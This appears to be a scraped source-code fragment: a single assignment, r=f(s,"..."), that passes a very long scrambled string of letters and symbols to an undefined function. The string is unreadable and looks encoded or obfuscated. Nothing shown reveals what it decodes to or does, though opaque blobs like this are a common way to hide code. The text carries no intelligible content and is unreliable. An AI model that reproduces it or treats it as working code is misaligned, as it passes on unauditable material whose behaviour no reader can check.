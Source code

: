 r=f(s,"?iJe#Z>mQ;gOT8sniQ#nnJ;Q#ineQge.8>mgZQiJT;>>iigs0n8Q;TZinOQseTsme;8TQJJQTsmmJOTK>>UTO{QmZK{K;O#>sb;esOO#Q>Jg82>gi8O;>gOO>nu#ggZUn#Tmg<#g;m>eeZ8smQJ;mOZ#iZO>>ensOinngn#Qss;#eQi>8KQQJnT>m;J>meen}xOmZQgO>en#;g#3s#TgQOJZTQQiiQgO>#7>Omemr;OJ#Tn8mJe88TQsegQmeT8ym>iTT^gZ>>d#ggZZn#m>##ss>;eTsm>TJgTsmmi8miiOOg>1y>gggi#gsT;;emsTe;smQJJQTsmJ>;iOOs>Jsggm#8Mx;Q#8;;#8sJQQJs8Jgm>siOO>m#TiQ8#sr>g8nng8;se>8g#>88QQJ>TTmJi>n#gs>iATgQZ#n;#Oii;#egsWQ#Z>e+8Zm>T8;;ZgiiOJ{O8#;Q#OsmgJsn;8eOi%8Zm;JTm;#T*>TeiisegJZ;ss;OnZg#eOsgQ#Jg8}m#ZQinTp>;cJ>eJnAigg##nZ#in<QgeW8>mgZnJXOs>#-ngs#JqTggZesO#mSv;Ee>8TQUZ#inTT>>iQOOZ>yng>VmTn;##O;n>mJTsZQOJ;TQmOT;mQiJOQZsvJsZ;g#8s;;ges;mZneJ8mm#TnQ#iQOs>#)Qsegs#sn;ZiJms>;ZJgsemgJsQiZOiJO#>>O;>ZEJgQ#snJ8e;Q#J8sQnJg8>mOT8mgi>OT>J+>sOgT#gnG;OegTmQJesQmeQ8+m>iTTSg#ZnX>Oe:;8#ge#Jsg;ZeJ8QQO8;QiJJTQ>siJnmgsZz+JZZHZ;s##sgQsmZJsTsm>8m;s>mi>OQ>mnTg8xig8#gnh;>egiesZQOJ8OemQJJT;iZT>Zs7#gg#seJ8;m8iJTs>ZX#O8ZTn>g##nsT>miJO9Z>nTgEmJ#;sFQQessJ>88ZQ#isT#>g2ss#Q;#g8JgZZisTm#eQ8QQ>8OQ>J#Tgmhi#niOKZJ^OgZ#QnO#;n>;JeQ8sQJZ;JJ8imQinmi#g7Jg#BegT#TnJ;QeTJLsmQQJ8TgJZTn>si#OgZs#in>;n#gnTgfs8;Ze>8TQJJ>n;TT>mJJ>;>QOJZQnsgJJSm;e#iJQ#i>_#Z8iQn>>Qn>sQ#inT8g#TTnTTJZsXOse^TOOpt;T#gJi#;O;#s8gQQ>nQQTmQ8iQT>g8TmiQnPJZOi>n#>>nQs>enng8Q#g8sTgJe8sOTJsOngsomTJgDiJ;g;JsOg>Q#n>Qim>TnQg>Q8g>QZgOe>s#TOs#Zes;mZged;O#g#nw#;Qess#QQ>OJ#8ZmmigOgZsimgsZesQgnZun;Qseg8se;sQQJJQTsmJZZqsTi>#fmg8Sm8n;#eTs#enneQQJs8#mQZ8isOT>Jv8gTenn#gm#en#;Qies>QOJQQeemTTmJiQOTO>Zmnsg8Z;n#;mZksJ;OJs8JQgJn8rm;Tmmni_O>ZTkF8Zg;#TneQ8essTQ;i#TTm;iQOTmenTO1ZJ:mgTZigeZQsT;JeQ8TTiQJJjT>mii0gQZQ*;gsZQn8QTeTnZQTenQ8em8>mTJJT>Tr>OxnOJZ8ngZZ_Q;s##sgQs>ie#88mZiTTnZ>iJT;ZgsOggZnnJ;nnegZeTsJQQJTii8Jm6i>Ti>dsmO6ZOnmQ>#sn#;;sO;ge#8gQ2J#R;Tem>iZOiZQ OZnJTng;Zni;8egs{Q>JgnsTJmei;OZZgzJOSKZOe#sn#;gesi#sQQOsiOmm;i#8J>#im>ZiggsZ#ng;sQe##sJQQee8J>mis8immigTe>gcZg#ZOng#n_i;Qess#QQZnJQ8e>nnmT4>ni>O8eJn8g##8sO#mng;Le>8TQfZ8iTTTme,gTiZ;TQQ8#TnTgeegniQ;sZ;TJs8#mgisnJO8>#o>g8R8se;sZen;g#niT>QeJ;8JmJigT8iOTJ>#_gONZ#Jgnsgini;OegsqQ>JgiiTJmeJJOQ>TO;>#UJgQ#snJ8J;;#e8sQgJn8gJm8;m.i>OT>/eJl;g_ZmnJ;JnZ8JQJe;8nmTJQ8iinTg>QFsO#ZQJnnQgQ#essQQeOQ8e>8>mTJJT>gT#i!TO>Jign>znQ;s##sQOg;#e;8geinsTJmmT;gQZ>!QgJzigs#gn1;>egiQ8gQZJ>QeZ8J#TQ>>OQZsq##ggegeJxJ>J;;i#J8gQPJ>TggO>80QT>ZQ4O;J#Qn8;g#mni;>se;JJT8JmQiTn;TJZTtBOiesn#g;#>ne;8s;;seJ8QmsJJfQT;>eN>OnZ>smg;##3J;##mOsQ;JQ8gQ>8eQiiTTJ>QVTs#OZ#sn#genO8O;>eO8QeenXmTJJTQ>TZIb>OOZQPZgnPiTngJeZ;;>eJs8sm#J>Tn>mT;gJZgV8Om#Tnn#8ng;>eTsJQ>>ge>8i>ginTQ>fTi;n&mOeZEn>;T#E#Zs>QOeQ8>miigT8iO8J>#BgO_Z#e;SJ;>#ZsJ;meQOmmsJJT;>TJcTm#;jsgsZ;%ZZi_#;g#Ws>Qg>>Jg8em;8egt>mi#Os>ZOm; #OnJ;nsn;8eQ8sQ#JQ-J8JmiyTOnZOs;gTZTxe#nns;Qess#QQZ8J#8Q>sJeT!>8imOJZsMeZZnO;s##sgQsms0TQZeZTsm#igOsgJZ>n8g>Z;g8mQZisnQge8sZei8nmgJfT>>g#ni*gsZ#nn;sJJs>;>e>;ien8gQ2J>TggJ>>iO;8ZnngOQ#gn8g#nigeegs+Q>JgWn80>si#OnZssTg>Znn>g;#>s#;Zs;;QeJ8QmsJJn#Tm>>6gOmiissg>Zin(gJsngZeQ8sQ#JQd#TQmiimmieOfTOQZ=nmg;nOTT;ueO8g>nnimnJ;TQ>si#OQQg>ing;T4iOQ#mn5;3e>8TQ.>#iTOsJe8g>;iQOJZQnsgJmT#>s}QTeFOeQTei8mmQi8>nJJOQZsY#gQQ>#Qne;#niTgQQeTQ;ZQJQTm>JiZOiC8OQZ>nTgJ#>J;sJ;#es8#QQJnmOJOT#>gi*O#OZZAne;geTsQgie#8Q;%eZTTJmT8mbi>OT8Zm8i,Zm*Lg3#>sT;&mZ#E88mQsgm;JOTJ>QqsOJ;mZQn>;T#ms>;eeT8>Q#JT8#mginmiJmOg>V/>ggQnZPss;#en8s>TJ>8sQZiTTnmTsnTi>gx#OZWiOi#gn^;>egin8gQJJ>QeZQJ#T;>OiBOg>ig8Z;n>;T#Js>TOQTJg80mOig;n>>Os>#VgOAZ>nTQJO8Js;m#Zs&Q>JT84OemTiOg>ZsiiOOZ#n#;Tnmgi#:s>QTe{PJ8nm>JJTO>#Onmz7QgsZ#nQTT;seQsgQJsmT#m#JO8i>sigTeiinsZg.{g>#g#enZ;Oe8s>Zess;#mJigTO>ZiQgOi8nQgg#sO>;ie#nhQQJ;;QQ#igTn>Ti;Te>QTgQmZe%J;Q#mneZ#e88>QeJJT#mTi#TQJgj8gQ>inQgTZeO#Qn#3ssQOJn8Qm7i;Qg>sBQO>>iTmgOZgsT#On>;#egs7Q#>#JOT>mZT8gQ>JO;>X/JgQ#sZ>ieO##OQn#K8QmsJ#TQg8>sITOJZ8nTQ8#TnO;3#eseQJsiQsJg81m>igngOneg-Zg#Zmn>;gen;O#>s#Qget8#O;mgiQOs>;yQgib;OOZJnQ;s#Ji>siQ#JQ8>ZeJ>8Gm>ngT#ZgMsOZAig8#gny;>egis8>QOieT#mZJ#OgiZT>Zso#gg#sJ>s>;me88T;>seO;mQJmOTmZFT>mimO&Z>nTg1m##>sO;mJs88Q;sQOZQ7i8OQieTHZT/JgQ#TJUsOQg#i8>mseZTTmnT8m;i>OT>JR>8QOJZmnQ#niTnHQnsiQgJg8bm>ignsO>ZQO8mZ7egs#TnJ;QeTi#8QQmJ#8m>Ti8miJ_Og>qx>ggQnZvss;#en8smJe;8gQeiTmmJZT^>>vTOBg8Z>ss;m#Tne;me#8nms8mQ;JfT>>Ti9nZO>Z#nggZ##8Q;Oe>8TQiiZ8sm8TTmJiQOs>#-gOUZ>eTgZ#sss;#eg8sOJQ#Jm8tm;Tmm#iFO>ZT+t8sg&Z!s>#;iZ8>Q8JsQiJgTgm7i>Og;Z>%n;Q>#mge#OsT;JeQ8T8Om#J>T#inTT>QvsO#ZQe8ns;T#Js8QTi#sQQm8;QeJJTQ>siJn;gsZ>n>ZOe;giZJsg;de>8gOnQ!isT#>n4sgy>gnTgnegssgmneg#eTsJQQJT88gsmJiOTiiOniOUZnn#gm#ms>#Z1mQse#8gmsZJJ#T8me0TO9>mO;Q#Z8nh;##Tni;JeOQn>iJw8ZJsJxme#Oi#Oe